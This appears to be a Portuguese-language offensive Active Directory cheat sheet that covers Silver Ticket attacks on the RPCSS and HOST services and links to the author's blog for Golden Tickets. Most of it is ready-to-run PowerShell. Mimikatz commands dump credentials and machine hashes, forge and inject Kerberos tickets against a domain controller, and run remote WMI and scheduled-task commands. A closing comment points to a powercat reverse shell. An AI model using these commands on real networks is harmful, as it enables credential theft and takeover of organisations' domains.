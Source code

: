 Mais informações de como esse ataque funciona você encontra no meu blog [Golden Ticket](https://0x4rt3mis.github.io/activedirectory/2020/12/22/Active-Directory-Explorando-Trusts-Tickets/)

#### Silver Ticket

O Silver Ticket é um tipo de Golden Ticket, só que para alguns serviços específicos, é muito mais difícil de ser detectado contudo sua capacidade ofensiva é reduzida, tendo em vista que é apenas para um serviço específico.

##### RPCSS

RPCSS
```powershell
# Extraimos o hash da MÁQUINA, isso é importante, não é o hash do krbtgt, e sim o da máquina, que está com o nome MACHINE$
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "exit"' 

# Após ter extraido, executamos o ataque
# /domain:domínio que estou
# /sid:sid do domínio (Get-DomainSid)
# /target:a máquina alvo, no caso o DC
# /service:o serviço que vou explorar
# /rc4:o hash do DC$
# /user:o usuário que vou impersonificar
# /ptt:pra injetar de imediato o ticket

Invoke-Mimikatz -Command '"kerberos::golden /domain:AB.DOMINIO.local /sid:S-1-5... /target:AB.DC.DOMINIO.local /service:RPCSS /rc4:HASH_DA_MAQUINA$ /user:Administrator /ptt"'

# Verificamos se foi injetado
klist

# Executamos comandos!
gwmi -Class win32_operatingsystem -ComputerName AB.DC.DOMINIO.local
```

##### HOST

HOST

```powershell
# Extraimos o hash da MÁQUINA, isso é importante, não é o hash do krbtgt, e sim o da máquina, que está com o nome MACHINE$
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "exit"' 

# Após ter extraido, executamos o ataque
# /domain:domínio que estou
# /sid:sid do domínio (Get-DomainSid)
# /target:a máquina alvo, no caso o DC
# /service:o serviço que vou explorar
# /rc4:o hash do DC$
# /user:o usuário que vou impersonificar
# /ptt:pra injetar de imediato o ticket

Invoke-Mimikatz -Command '"kerberos::golden /domain:AB.DOMINIO.local /sid:S-1-5... /target:AB.DC.DOMINIO.local /service:HOST /rc4:HASH_DA_MAQUINA$ /user:Administrator /ptt"'

# Verificamos se foi injetado
klist

# Verificamos agora que temos acesso às tarefas do sistema!
schtasks /S AB.DC.DOMINIO.local

# Agendamos uma para executar um reverse shell na nossa máquina (Lembrar do HFS e do powercat)
```